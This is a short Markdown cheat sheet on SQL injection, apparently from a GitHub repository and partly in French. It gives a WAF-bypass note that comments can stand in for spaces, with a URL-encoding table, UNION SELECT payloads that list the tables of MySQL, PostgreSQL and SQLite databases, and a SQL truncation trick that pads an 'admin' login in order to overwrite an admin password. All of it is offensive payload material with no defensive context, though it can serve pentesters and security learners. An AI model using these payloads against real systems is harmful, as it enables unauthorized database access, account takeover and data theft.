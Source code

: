 
# SQL injection

- WAF bypass

/**/ fonctionne comme un espace

    espace 	%20 	%20
    ! 	%21 	%21
    " 	%22 	%22
    \#  %23 	%23
    $ 	%24 	%24
    % 	%25 	%25
    & 	%26 	%26
    ' 	%27 	%27
    ( 	%28 	%28
    ) 	%29 	%29
    \* 	%2A 	%2A
    \+ 	%2B 	%2B
    , 	%2C 	%2C
    \- 	%2D 	%2D
    . 	%2E 	%2E
    / 	%2F 	%2F
    0 	%30 	%30
    1 	%31 	%31
    2 	%32 	%32
    3 	%33 	%33
    4 	%34 	%34
    5 	%35 	%35
    6 	%36 	%36
    7 	%37 	%37
    8 	%38 	%38
    9 	%39 	%39
    : 	%3A 	%3A
    ; 	%3B 	%3B
    < 	%3C 	%3C
    = 	%3D 	%3D
    \> 	%3E 	%3E
    ? 	%3F 	%3F
    @ 	%40 	%40
    A 	%41 	%41
    B 	%42 	%42
    C 	%43 	%43
    D 	%44 	%44
    E 	%45 	%45
    F 	%46 	%46
    G 	%47 	%47
    H 	%48 	%48
    I 	%49 	%49
    J 	%4A 	%4A
    K 	%4B 	%4B
    L 	%4C 	%4C
    M 	%4D 	%4D
    N 	%4E 	%4E
    O 	%4F 	%4F
    P 	%50 	%50
    Q 	%51 	%51
    R 	%52 	%52
    S 	%53 	%53
    T 	%54 	%54
    U 	%55 	%55
    V 	%56 	%56
    W 	%57 	%57
    X 	%58 	%58
    Y 	%59 	%59
    Z 	%5A 	%5A
    [ 	%5B 	%5B
    \ 	%5C 	%5C
    ] 	%5D 	%5D
    ^ 	%5E 	%5E
    _ 	%5F 	%5F
    \` 	%60 	%60
    a 	%61 	%61
    b 	%62 	%62
    c 	%63 	%63
    d 	%64 	%64
    e 	%65 	%65
    f 	%66 	%66
    g 	%67 	%67
    h 	%68 	%68
    i 	%69 	%69
    j 	%6A 	%6A
    k 	%6B 	%6B
    l 	%6C 	%6C
    m 	%6D 	%6D
    n 	%6E 	%6E
    o 	%6F 	%6F
    p 	%70 	%70
    q 	%71 	%71
    r 	%72 	%72
    s 	%73 	%73
    t 	%74 	%74
    u 	%75 	%75
    v 	%76 	%76
    w 	%77 	%77
    x 	%78 	%78
    y 	%79 	%79
    z 	%7A 	%7A
    { 	%7B 	%7B
    | 	%7C 	%7C
    } 	%7D 	%7D
    ~ 	%7E 	%7E
    	%7F 	%7F
    ` 	%80 	%E2%82%AC

- Retreive tables

1.  Mysql

	union select group_concat(table_name) from information_schema.tables 
		
3. PostgreSQL

	`UNION SELECT * FROM string_agg(tablename, ',') WHERE schemaname != 'pg_catalog'  AND schemaname != 'information_schema';`

3. SQLite

    	`union select group_concat(name) from sqlite_master WHERE type='table'`

- SQL Truncation

e.g. :

    Update Users set password = $password where username= $login
	login = varchar(25)
	with $login = 'admin(blankspace x 19)x'


